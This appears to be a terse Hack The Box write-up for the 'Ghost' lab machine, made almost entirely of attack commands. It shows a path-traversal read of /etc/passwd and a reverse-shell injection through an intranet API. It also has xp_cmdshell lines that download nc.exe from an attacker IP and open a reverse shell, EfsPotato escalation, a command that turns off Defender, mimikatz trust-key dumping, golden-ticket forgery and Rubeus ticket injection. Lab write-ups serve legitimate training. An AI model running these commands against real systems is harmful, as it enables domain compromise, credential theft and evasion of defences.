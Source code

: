# Ghost


http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a


curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@y******' -H 'Content-Type: application/json' -d '{"url": "<<bash 196 revshell>>"}'


python3 mssqlclient.py ghost.htb/intranet_principal:'He******'@DC01.ghost.htb -windows-auth

impacket-mssqlclient florence.ramirez:'He*****'@ghost.htb -windows-auth

ux******和He******都可以

enum_links

use_link [PRIMARY]

use master

exec_as_login sa

--impacket-mssqlclient-- --> EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.xx.xx/nc.exe -OutFile $env:TEMP\nc.exe"'

                             EXEC xp_cmdshell '%TEMP%\nc.exe -e cmd.exe 10.10.xx.xx xxxx';

                             
--python3 mssqlclient.py-- --> xp_cmdshell


./EfsPotato.exe 'nc.exe -e cmd.exe 10.10.xx.xx xxxx'


wmic useraccount get name,sid


关AV：
Set-MpPreference -DisableRealtimeMonitoring $true


.\mimikatz.exe "lsadump::trust /patch" exit


.\mimikatz.exe "kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498-502 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi" exit


.\Rubeus.exe asktgs /ticket:golden.kirbi /dc:dc01.ghost.htb /service:CIFS/dc01.ghost.htb /nowrap /ptt


type \\DC01.ghost.htb\c$\Users\justin.bradley\Desktop\user.txt
type \\DC01.ghost.htb\c$\Users\Administrator\Desktop\root.txt
